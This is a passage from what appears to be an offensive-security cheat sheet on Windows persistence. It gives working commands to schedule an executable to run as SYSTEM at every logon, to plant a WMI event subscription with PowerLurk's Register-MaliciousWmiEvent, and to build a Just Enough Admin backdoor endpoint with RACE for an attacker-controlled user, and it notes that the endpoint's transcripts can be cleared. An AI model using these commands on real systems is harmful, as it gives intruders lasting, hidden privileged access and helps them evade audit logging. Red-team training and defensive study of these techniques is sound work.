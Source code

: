 ### Schtasks2
- Run task as system each time a user logs in
```
schtasks /create /ru "NT AUTHORITY\SYSTEM" /rp "" /tn "<TASK NAME>" /tr <PATH TO EXE> /sc onlogon
```

## WMI
- Persistence can be achieved with `EventConsumer`, `EventFiler`, `FilterToConsumerBinding`
- https://github.com/Sw4mpf0x/PowerLurk

```
Import-Module PowerLurk.ps1
Register-MaliciousWmiEvent -EventName <EVENT NAME> -PermanentCommand "<PATH TO EXE>" -Trigger ProcessStart -ProcessName notepad.exe
```

### Just Enough Admin
- If we have admin privileges on a machine, we can create a JEA endpoint which allows all commands to a user we control.
- With this capability, it is also possible to clear the transcripts for this endpoint. 

#### Create a new JEA endpoint
- https://github.com/samratashok/RACE

```
Set-JEAPermissions -ComputerName ops-dc -SamAccountName <USER> -Verbose
```

#### Connect to JEA endpoint
```
Enter-PSSession -ComputerName ops-dc -ConfigurationName microsoft.powershell64
```
